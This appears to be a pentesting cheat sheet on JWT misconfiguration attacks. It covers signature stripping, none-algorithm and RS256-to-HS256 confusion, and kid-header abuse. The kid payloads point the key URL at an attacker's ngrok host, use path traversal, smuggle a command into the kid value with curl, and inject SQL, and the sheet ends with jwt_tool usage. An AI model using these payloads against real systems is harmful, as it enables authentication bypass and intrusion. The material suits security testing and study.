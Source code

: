 # JWT Misconfiguration
1. Signature not checked? &rarr; Modify the body,
2. Signature checked only if it exists? &rarr; Modify the body and delete signature.
3. Weak signature &rarr; Bruteforcing signature.
4. None Algorithm attack (Change algorithm to None/none/nONE/NONE).
5. Application uses RS256 algorithm? &rarr; Look for public key using recon. Change the algorithm to HS256 and generate new token using public key.
6. Vulnerable Kid: The kid (key ID) is a hint indicating which key was used to secure the JWS (JSON Web Signature). It's generally used when there are multiple keys to sign the tokens and we need to look up the right one to verify the signature.

```
6.1. Change kid url to your url so that the application use your key to verify the modified JWT token.
ssh-keygen -t rsa -b 4096 -m PEM -f jwtRS256.key
openssl rsa -in jwtRS256.key -pubout -outform PEM -out jwtRS256.key.pub

"kid":"http://localhost/key.pem" --> "kid":"http://xyz.ngrok.io/jwtRS256.key"

6.2. Try publicly accesible files to verify the token.
"kid":"app/secret.pem" --> "kid":"../../public/main.css"

6.3. Command Injection:
"kid":"app/secret.pem && curl http://bing.com &"

6.4. SQLi:

"kid":"hello UNION SELECT 'key';--"
```

### Automation:
* git clone https://github.com/ticarpi/jwt_tool
* cd jwt_tool
* pip3 install -r requirements.txt
* python3 jwt_tool.py -M at -t "https://api.example.com/api/v1/profile" -rh "Authorization: Bearer ```<JWT Token>```"

Reference:
- https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens
- https://github.com/KathanP19/HowToHunt/blob/master/JWT/JWT.md
